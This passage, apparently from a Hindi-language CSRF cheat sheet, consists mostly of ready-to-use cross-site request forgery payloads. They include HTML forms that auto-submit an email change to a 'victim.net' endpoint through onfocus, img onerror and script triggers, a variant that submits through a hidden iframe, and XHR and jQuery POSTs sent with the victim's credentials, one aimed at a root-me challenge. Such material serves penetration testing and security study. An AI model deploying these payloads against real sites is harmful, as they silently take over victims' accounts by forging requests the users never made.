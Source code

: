 ```html
<html>
<body>
<script>history.pushState('', '', '/')</script>
<form method="POST" action="https://victim.net/email/change-email" id="csrfform">
<input type="hidden" name="email" value="some@email.com" autofocus onfocus="csrfform.submit();" /> <!-- Way 1 to autosubmit -->
<input type="submit" value="Submit request" />
<img src=x onerror="csrfform.submit();" /> <!-- Way 2 to autosubmit -->
</form>
<script>
document.forms[0].submit(); //Way 3 to autosubmit
</script>
</body>
</html>
```
### iframe के माध्यम से फ़ॉर्म POST अनुरोध
```html
<!--
The request is sent through the iframe withuot reloading the page
-->
<html>
<body>
<iframe style="display:none" name="csrfframe"></iframe>
<form method="POST" action="/change-email" id="csrfform" target="csrfframe">
<input type="hidden" name="email" value="some@email.com" autofocus onfocus="csrfform.submit();" />
<input type="submit" value="Submit request" />
</form>
<script>
document.forms[0].submit();
</script>
</body>
</html>
```
### **Ajax POST अनुरोध**
```html
<script>
var xh;
if (window.XMLHttpRequest)
{// code for IE7+, Firefox, Chrome, Opera, Safari
xh=new XMLHttpRequest();
}
else
{// code for IE6, IE5
xh=new ActiveXObject("Microsoft.XMLHTTP");
}
xh.withCredentials = true;
xh.open("POST","http://challenge01.root-me.org/web-client/ch22/?action=profile");
xh.setRequestHeader('Content-type', 'application/x-www-form-urlencoded'); //to send proper header info (optional, but good to have as it may sometimes not work without this)
xh.send("username=abcd&status=on");
</script>

<script>
//JQuery version
$.ajax({
type: "POST",
url: "https://google.com",
data: "param=value&param2=value2"
})
</script>
```
### multipart/form-data POST अनुरोध